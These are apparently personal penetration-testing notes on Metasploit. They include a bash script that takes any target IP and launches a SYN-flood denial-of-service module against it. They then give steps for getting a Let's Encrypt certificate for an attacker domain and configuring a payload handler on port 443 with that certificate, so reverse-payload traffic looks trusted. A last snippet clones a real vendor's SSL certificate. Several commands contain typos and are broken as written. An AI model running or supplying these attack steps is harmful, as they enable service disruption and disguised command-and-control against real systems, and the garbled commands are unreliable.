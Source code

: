 ## <mark style="color:red;">Bash Automation</mark>

we can write bash scripts to automate the tasks: example: a dos attack.

```
 #!/bin/bash
 TARGET
 echo " Choose who to DDoS (IP address ONLY), use nslookup < URL> to get IP address"
 read TARGET
 msfconsole -q -x "use auxiliary/dos/tcp/synflood;set RHOST $TARGET; exploit;
```

## <mark style="color:red;">Payloads with Trusted SSL Certificates</mark>

configure a domain in `zinitiative.com` and use lets enrypt to get a certificate after configuring the domain DNS servers to point to the `digitalocean` droplet getting a certificate with lets encrypt is very simple.

first install letsencrypt:

```
apt install lets encrypt -y
```

generate a cert

```
letsencrypt cartonly --manual -d zinitiative.com
```

we should have a cert under `/etc/letsencrypt/live/zinitiative.co`m directroy

before we can move on we will have to creare a unified file containng privkey.pem and cert.pem:

```
cd /etc/letsencrypt/live/zinitiative.com 
cat privkey.pem cert.pem >> /root/unified.pem
```

now in msfconsole set the cert

```
set lhost zinitiative.com
set lport 443
set handlersslcert /root/unified.pem
set stagetverifysslcert true
set enablestageencoding true
run
```

## <mark style="color:red;">Using Payloads with HTTP SSL</mark>

```
use auxiliary/gather/impersonate_ssl

# we use symantec websit as an example:
set rhost www.symantec.om
run
```
